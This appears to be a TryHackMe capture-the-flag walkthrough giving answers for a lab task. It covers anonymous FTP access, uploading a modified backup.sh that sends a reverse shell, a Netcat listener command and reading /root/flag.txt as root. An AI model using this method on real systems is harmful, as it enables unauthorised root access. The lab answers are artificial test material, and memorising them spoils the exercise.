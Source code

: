 # Anyone can be Santa!

Before we begin, we're going to need to deploy two Instances:

	1. The THM AttackBox by pressing the "Start AttackBox" button at the top-right of the page.
	2. The vulnerable Instance attached to this task by pressing the "Deploy" button at the top-right of this task/day.

- Name the directory on the FTP server that has data accessible by the "anonymous" user

	- `ftp <TARGET_IP>` and enter `anonymous` 
	- `public`

- What script gets executed within this directory?

	- `backup.sh`

- What movie did Santa have on his Christmas shopping list?

	- (ftp) `get shoppinglist.txt`
	- `The polar express`

- Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!
Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have setup a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

	- Insert your IP address in `backup.sh` where is the lable.
	- (ftp) `put backup.sh`
	- On your machine `nc -lvnp 4444`
	- You should get a root shell in a minute.
	- `cat /root/flag.txt`
	- `THM{****_***_***_**_*****}`





